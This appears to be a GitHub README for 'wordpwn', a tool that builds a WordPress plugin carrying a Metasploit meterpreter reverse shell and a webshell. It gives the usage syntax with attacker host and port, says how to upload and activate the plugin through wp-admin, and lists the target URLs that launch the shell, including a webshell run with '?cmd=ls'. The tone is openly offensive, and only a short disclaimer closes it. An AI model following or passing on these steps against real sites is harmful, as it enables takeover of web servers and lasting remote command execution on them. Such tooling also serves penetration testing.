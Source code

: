 # Malicious WordPress plugin

This utility simply generates a WordPress plugin that will grant you a reverse shell and a webshell once uploaded. I recommend installing Kali Linux, as MSFvenom is used to generate the payload.

It goes without mentioning that in order for this method to be effective, you must have credentials to a
valid User account, with rights to add plugins to the WordPress website ;)

## Usage Example
```sh
root@wetw0rk:~# python wordpwn.py
__        __            _
\ \      / /__  _ __ __| |_ ____      ___ __
 \ \ /\ / / _ \|  __/ _  |  _ \ \ /\ / /  _ \
  \ V  V / (_) | | | (_| | |_) \ V  V /| | | |
   \_/\_/ \___/|_|  \__,_| .__/ \_/\_/ |_| |_|
                         |_|


Usage: wordpwn.py [LHOST] [LPORT] [HANDLER]
Example: wordpwn.py 192.168.0.6 8888 Y
```

## How and When do I use this?

Usage is super simple, simply pass wordpwn your listening address and listening port and execute the script. You are also given the option to start a handler, I recommend that you do... since by default the plugin will be made using a `php/meterpreter/reverse_tcp` reverse shell.If you have your own nefarious PHP payload simply adjust the script to accept it.

After the script is ran, a zip file (the plugin) called `malicious.zip` will be created in the current directory (and a handler will be started if you specified it with the `Y` option).
Upload this zip file as a new plugin (by browsing to the URL `http://(target)/wp-admin/plugin-install.php?tab=upload`).
Once uploaded, you have to activate the plugin.

Be sure to start our listener (if you didn't specify the handler with the `Y` option) !
If reverse shell connection doesn't hang there is a webshell uploaded which can be accessed.

Once the plugin installed and activated, just navigate to the following URLs to launch the reverse shell or the webshell :
 - http://(target)/wp-content/plugins/malicious/wetw0rk_maybe.php
 - http://(target)/wp-content/plugins/malicious/QwertyRocks.php
 - http://(target)/wp-content/plugins/malicious/SWebTheme.php?cmd=ls  (Webshell with list directory command)


**Note:** if the script usage is still a mystery to you, [JavaRockstar](https://github.com/JavaRockstar) has made a tutorial on his website [HackingVision](https://hackingvision.com/2017/04/11/hacking-wordpress-website-malicious-plug/) about it.


## PLEASE READ
I want to be 100% sure that I give credit to [Rob Carr](https://www.rastating.com/). Rob Carr is the author of the Metasploit module `wp_admin_shell_upload`, which this script is based on. You can find more information on his module at [Rapid7](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload) .

## DISCLAIMER
We are not responsible for any bad use case, use this script at your own risks, do not use it for any illegal/unethical purposes.
